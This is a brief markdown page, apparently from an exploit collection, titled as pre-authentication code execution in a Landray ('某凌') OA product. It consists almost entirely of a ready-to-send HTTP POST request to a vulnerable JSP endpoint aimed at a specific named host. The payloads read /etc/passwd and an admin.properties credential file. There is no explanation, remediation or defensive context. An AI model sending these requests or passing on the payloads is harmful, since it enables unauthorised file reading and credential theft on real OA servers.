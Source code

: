 # 某凌OA前台代码执行

## 某凌OA前台代码执行
```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: www.ynjd.cn:801
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: /
Connection: Keep-Alive
Content-Length: 42
Content-Type: application/x-www-form-urlencoded

var={"body":{"file":"file:///etc/passwd"}}
```
var={"body":{"file":"file:///etc/passwd"}}  // linux


var={"body":{"file":"/WEB-INF/KnssConfig/admin.properties"}}  //windows

